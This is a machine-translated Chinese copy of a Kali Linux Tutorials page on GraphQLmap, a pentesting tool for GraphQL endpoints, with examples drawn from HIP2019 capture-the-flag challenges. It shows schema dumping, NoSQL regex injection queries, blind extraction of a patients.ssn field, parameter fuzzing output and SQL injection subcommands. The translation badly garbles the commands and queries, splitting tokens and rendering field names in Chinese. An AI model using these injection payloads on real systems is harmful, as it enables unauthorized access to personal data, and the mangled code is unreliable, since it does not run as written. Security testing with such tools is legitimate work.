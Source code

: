 # GraphQLmap:一个脚本引擎，用于与 Graphql 端点进行交互，以进行测试

> 原文：<https://kalilinuxtutorials.com/graphqlmap/>

[![GraphQLmap : A Scripting Engine To Interact With A Graphql Endpoint For Pentesting Purposes](img/74d530d3431a0a8030d557f804cb5c2f.png "GraphQLmap : A Scripting Engine To Interact With A Graphql Endpoint For Pentesting Purposes")](https://1.bp.blogspot.com/-4v_cTJe-EzA/YLsoikHtN4I/AAAAAAAAJUw/-h590jMpa-g0JWjww52qnCY7g321vNFTQCLcBGAsYHQ/s744/GraphQLmap%25281%2529.png)

GraphQLmap 是一个脚本引擎，用于与 graphql 端点进行交互以进行测试。

**安装**

**$ git 克隆 https://github.com/swisskyrepo/GraphQLmap
$ python graphqlmap . py
*_*
/*| |/_ |*_ _*_ | |*| '/*`| '_ | '_ | | | | | | '_`*\/*` | '*\ | | | |(*| | |*)| | | | |*| | | |*| _*| _*， *|。 /|*| |*| _ _*| _ _ _ _ _ _ _ |*| |*| |*| _*， *|。_*/
| | | |
| |*| |*|
作者:Swissky 版本:1.0
用法:graphql map . py[-h][-u URL][-v[VERBOSITY]][–METHOD]][–HEADERS[HEADERS]]
可选参数:
-h，–help 显示此帮助消息并退出
-u 要查询的 URL:example.com/graphql?query={}
-v[VERBOSITY**

**特征和示例**

示例基于 HIP2019 的几个 CTF 挑战。

**连接到 graphql 端点**

**python 3 graph qlmap . py-u https://your hostname . com/graph QL-v–method post–headers " { " authorization ":" bearer eyjhbgcioijihuzi 1 niisinr 5 CCI 6 ikpvcj 9 . eyj 0 zxh 0 ijoibm 8 vjcmv 0 cyzjlid 1 Qin 0 . jqdoesc-R4 ltos 9 h0 和 7bIq-M8AGYjK92x4K3hcBA6o"} "**

**转储一个 GraphQL 模式**

使用`dump_new`转储 GraphQL 模式，该函数将自动使用找到的字段填充“自动完成”。

**GraphQLmap>dump _ new
= = = = = = = = = = = = = =[SCHEMA]= = = = = = = = = = = = = =
例如:name【Type】:arg(Type！)
查询
医生[]:邮箱(字符串！)，
医生【医生】:
患者【患者】:
患者[]: id (ID！)，
allrendezvous[Rendezvous]:
Rendezvous[]:ID(ID！)，
医生
id[ID]:
名[字符串]:
姓[字符串]:
专科[字符串]:
患者[无]:
集合点[无]:
邮箱[字符串]:
密码[字符串]:
[…]**

**与 GraphQL 端点进行交互**

编写一个 GraphQL 请求并执行它。

**GraphQLmap>{医生(选项:1，搜索:" { \ "姓氏\": { \"$regex\": \ "管理\ " } } " {名字姓氏 id}}
{
"数据":{
"医生":[
{
"名字": "管理"，
" id ":" 5d 089 C5 1d cab 2d 0032 FDD 08 "，
"姓氏":"管理"
} 【T9**

**GraphQL 字段模糊化**

使用`GRAPHQL_INCREMENT`和`GRAPHQL_CHARSET`模糊参数。

GraphQLmap > {doctors(options: 1，搜索:" { \ "姓氏\": { \"$regex\": \"AdmiGRAPHQL _ CHARSET \ " } " { first name last name id } }
[+]查询:(45) {doctors(options: 1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi！\ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi $ \ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi % \ " }){名字姓氏 id}}
[+]查询:(45){医生(选项:查询 搜索:" { \ "姓氏\": { \"$regex\": \"Admi * \ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi+\ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi，\ " } } " {名字姓氏 \ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi/\ " } } " {名字姓氏 id}}
[+]查询:(45){医生(选项:1，搜索:" { \ "姓氏\ ":{ \ " $ regex \ ":\ " Admi 0 \ " }){名字姓氏 id}}
[+]查询:(45){医生\ " } } " { first name last name id } }
[+]Query:(206){ doctors(options:1，search:" { \ " last name \ ":{ \ " $ regex \ ":\ " Admin \ " } } " { first name last name id } }

**诺舒利注射液**

在`**nosqli**`函数的查询中使用`**BLIND_PLACEHOLDER**`。

**GraphQLmap > nosqli
查询>{医生(选项:" {\"\"patients.ssn\":1} "，搜索:" { \ " patients . SSN \ ":{ \ " $ regex \ ":\"^blind_placeholder\"}，\ "姓氏\":\"Admin\ "，\ " first name \ ":\ " admin \ " } " { id，firstName}}
检查>5d 089 C5 1d cab 2d 0032 FDD 08d
charset>0123456789 abcdef**

**SQL 注入**

**graphql map>PostgreSQL Li
graphql map>mysqli
graphql map>mssqli**

[**Download**](https://github.com/swisskyrepo/GraphQLmap)